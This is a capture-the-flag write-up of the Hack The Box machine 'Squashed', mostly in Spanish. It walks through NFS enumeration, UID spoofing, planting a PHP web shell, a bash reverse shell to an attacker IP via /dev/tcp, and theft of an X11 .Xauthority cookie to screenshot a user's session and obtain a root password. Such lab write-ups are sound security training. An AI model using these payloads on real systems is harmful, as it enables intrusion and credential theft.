


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Squashed Writeup | Easy"
date = "2024-08-05"
description = ""
tags = [
    "HackTheBox",
    "Squashed",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "Linux",
    "NFS Enumeration",
    "Abusing NFS UID/GID missmatch",
    "Information Leakage",
    "Abusing .Xauthority Cookie",
]

+++

# Hack The Box: Squashed Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Squashed"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration
```shell
$ rustscan -a 10.129.228.109 --ulimit 5000 -g
10.129.228.109 -> [22,80,111,2049,44291,49353,50057,53893]
```

```shell
$ nmap -p22,80,111,2049,44291,49353,50057,53893 -sCV 10.129.228.109 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 15:45 CEST
Nmap scan report for 10.129.228.109
Host is up (0.037s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35859/udp6  mountd
|   100005  1,2,3      52835/tcp6  mountd
|   100005  1,2,3      53893/tcp   mountd
|   100005  1,2,3      58461/udp   mountd
|   100021  1,3,4      34979/tcp6  nlockmgr
|   100021  1,3,4      44291/tcp   nlockmgr
|   100021  1,3,4      54708/udp6  nlockmgr
|   100021  1,3,4      56514/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
44291/tcp open  nlockmgr 1-4 (RPC #100021)
49353/tcp open  mountd   1-3 (RPC #100005)
50057/tcp open  mountd   1-3 (RPC #100005)
53893/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.109 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 15:46 CEST
Nmap scan report for 10.129.228.109
Host is up (0.039s latency).
Not shown: 1492 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
111/udp   open   rpcbind
464/udp   closed kpasswd5
1035/udp  closed mxxrlogin
2049/udp  open   nfs
18994/udp closed unknown
20288/udp closed unknown
23230/udp closed unknown
30473/udp closed unknown
```

# NFS Enumeration
Me llama la atención el servicio NFS expuesto ya que no es común encontrarse con esto.

Vamos a instalar el paquete `nfs-common`
`sudo apt-get install nfs-common -y`

Ahora vamos a montar la raíz del sistema de archivos al directorio `/mnt/montura`

Primero creamos la carpeta.
`mkdir /mnt/montura`

```shell
$ sudo mount -t nfs 10.129.228.109:/ /mnt/montura
```

```shell
$ ls -la /mnt/montura
total 12
drwxr-xr-x 20 root root 4096 oct 21  2022 .
drwxr-xr-x  1 root root   14 ago  5 15:49 ..
drwxr-xr-x  4 root root 4096 oct 21  2022 home
drwxr-xr-x 16 root root 4096 oct 21  2022 var
```
Y vemos contenido. 

```shell
$ find . -type f 2>/dev/null
./ross/.xsession-errors.old
./ross/Documents/Passwords.kdbx
./ross/.xsession-errors
./ross/.Xauthority
```
Vemos un `Passwords.kdbx` que me llama la atención.

Investigando la bbdd de keepass, no encuentro nada que se pueda hacer ya que `keepass2john` no soporta la versión de KeePass con la que fue creada la base de datos.
```shell
$ keepass2john Passwords.kdbx 
! Passwords.kdbx : File version '40000' is currently not supported!
```

# UID Hijacking -> Foothold
Me dió curiosidad lo siguiente
No podía acceder al directorio `html` que supongo que corresponderá con el sitio web.
```shell
$ cd html/
bash: cd: html/: Permission denied
```

Pero con `find .` podía ver algunos directorio y ficheros de dentro del directorio `html`
```shell
$ find .
.
./html
find: ‘./html/.htaccess’: Permission denied
./html/.htaccess
find: ‘./html/index.html’: Permission denied
./html/index.html
find: ‘./html/images’: Permission denied
./html/images
find: ‘./html/css’: Permission denied
./html/css
find: ‘./html/js’: Permission denied
./html/js
```

Y me dí cuenta de que podríamos hacer un UID Hijacking


Podemos crear un usuario con el UID `2017`
```shell
$ sudo useradd -u 2017 pointedc
```

Y ahora en principio podríamos acceder a este directorio.


Ahora si cambiamos al usuario `pointedc` podemos acceder al directorio y por ejemplo, crear archivos.


Y se refleja en el sitio web.


Podemos comprobar si el sitio interpreta PHP, aunque leyendo el `.htaccess` ya nos da la pista de que sí.

```shell
$ echo "<?php phpinfo(); ?>" > test.php
```


Nos creamos una pequeña web shell.
```shell
$ cat shell.php 
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>
```

Y ya nos podemos mandar la rev shell
`http://10.129.228.109/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.18/443%200%3E%261%22`

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.109] 58462
bash: cannot set terminal process group (1050): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ 
alex@squashed:/var/www/html$ whoami
whoami
alex
```

Y ya podemos leer la flag de usuario
```shell
alex@squashed:/var/www/html$ cat /home/alex/user.txt
cat /home/alex/user.txt
f469293aeb9ecd01....
```

# Privilege Escalation
Si nos damos cuenta, hemos ganado acceso como el usuario `alex` y en el NFS, estaba el directorio personal de trabajo de un usuario llamado `ross`

Dentro de este directorio se encontraba un archivo `.Xauthority` pero todavía no lo había analizado porque ya tengo un usuario en mi máquina con ese UID.

Me interesa tanto este archivo porque podemos enumerar que el usuario `ross` tiene una sesión activa en el equipo
```shell
alex@squashed:/home/alex$ w
w
 10:10:41 up 41 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               09:29   41:36   3.57s  0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Y con este archivo `.XAuthority` que es de `ross` podría conseguir ver la pantalla de este usuario y quizás se filtre información confidencial.

Tengo dos opciones, o asignar una Shell a este usuario para poder migrar a este, o cambiar el UID de este usuario y crear otro usuario con el UID 1001.


Voy asignarle una shell temporalmente..
`$ sudo usermod --shell /bin/bash '_laurel'`

```shell
$ sudo su '_laurel'
┌─[_laurel@parrot]─[/mnt/montura/home/ross]
└──╼ $
```
Ahora ya puedo migrar a este usuario.

Me voy a copiar este archivo.
```shell
$cp .Xauthority /tmp/.Xauthority
```

```shell
$ sudo chown pointedsec:pointedsec .Xauthority
```

Ahora siguiendo [este](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11) apartado de HackTricks.

Me comparto este archivo a la máquina víctima.
```shell
alex@squashed:/home/alex$ wget http://10.10.14.18:8081/.Xauthority
```

Recapitulemos, este archivo contiene una Cookie de 128 bits que el cliente manda al servidor, esta cookie sirve para la autorización de X11, que en palabras simples y "mal", sería como una especie de RDP.


Exportamos la cookie.
```shell
alex@squashed:/home/alex$ export XAUTHORITY=/home/alex/.Xauthority
export XAUTHORITY=/home/alex/.Xauthority
```

Nos responde con información de la pantalla, por lo cual esto es bueno.
```shell
alex@squashed:/home/alex$ xdpyinfo -display :0 | less
xdpyinfo -display :0 | less
WARNING: terminal is not fully functional
-  (press RETURN)
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
supported pixmap formats:
    depth 1, bits_per_pixel 1, scanline_pad 32
    depth 4, bits_per_pixel 8, scanline_pad 32
    depth 8, bits_per_pixel 8, scanline_pad 32
    depth 15, bits_per_pixel 16, scanline_pad 32
    depth 16, bits_per_pixel 16, scanline_pad 32
    depth 24, bits_per_pixel 32, scanline_pad 32
    depth 32, bits_per_pixel 32, scanline_pad 32
keycode range:    minimum 8, maximum 255
focus:  window 0x1e00006, revert to PointerRoot
number of extensions:    28
    BIG-REQUESTS
    Composite
.....
```

Ahora podemos hacer una captura de pantalla de la sesión `:0` que habíamos detectado antes con el comando `w`

```shell
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
ls
screenshot.xwd
```

Ahora nos pasamos este archivo a nuestra máquina de atacante y la convertimos a PNG
```shell
$ convert screenshot.xwd screenshot.png
```

Y vaya vaya, ¡tenemos credenciales!


Me pensaba que iban a ser las credenciales para el usuario `ross` pero inocentemente probando estas credenciales para root...

```shell
alex@squashed:/var/www/html$ su ross
su ross
Password: cah$mei7rai9A
su: Authentication failure
alex@squashed:/var/www/html$ su root
su root
Password: cah$mei7rai9A
id
uid=0(root) gid=0(root) groups=0(root)
```

Y ya podríamos leer la flag.
```shell
cat root.txt
795ede7c08b5f41....
```

¡Y ya estaría!

Happy Hacking! 🚀